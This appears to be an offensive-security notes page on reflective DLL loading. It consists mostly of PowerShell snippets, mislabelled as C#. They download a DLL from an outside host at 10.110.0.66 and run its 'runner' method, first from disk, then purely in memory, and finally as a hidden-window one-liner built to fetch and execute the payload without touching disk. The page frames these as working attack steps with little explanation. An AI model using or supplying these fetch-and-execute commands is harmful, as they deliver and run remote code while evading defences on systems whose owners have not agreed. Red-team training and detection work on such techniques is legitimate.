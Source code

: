 # Reflective DLL loading

## Reflective DLL loading

### Drop a dll on disk

```csharp
New-Object System.Net.WebClient).DownloadFile("http://10.110.0.66/ClassLibrary2.dll","ClassLibrary2.dll")

# Load the Assembly
$assem = [System.Reflection.Assembly]::LoadFile("C:\Users\b3v1l\ClassLibrary2.dll")

# Use Reflection (GetType and GetMethod)
$class = $assem.GetType("ClassLibrary2.Class1")

$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

![](../../.gitbook/assets/image%20%28216%29.png)

{% hint style="warning" %}
DLL is downloaded and saved on the disk.
{% endhint %}

### Load in memory

```csharp
$data = (New-Object System.Net.WebClient).DownloadData("http://10.110.0.66/ClassLibrary2.dll")

# Load the Assembly
$assem = [System.Reflection.Assembly]::Load($data)

# Use Reflection (GetType and GetMethod)
$class = $assem.GetType("ClassLibrary2.Class1")

$method = $class.GetMethod("runner")
$method.Invoke(0, $null)


```

![](../../.gitbook/assets/image%20%2852%29.png)

#### One liner

```csharp
powershell.exe -windowstyle hidden -c $data = (New-Object System.Net.WebClient).DownloadData("http://10.110.0.66/ClassLibrary2.dll");$assem = [System.Reflection.Assembly]::Load($data);$class = $assem.GetType("ClassLibrary2.Class1");$method = $class.GetMethod("runner");$method.Invoke(0, $null)
```

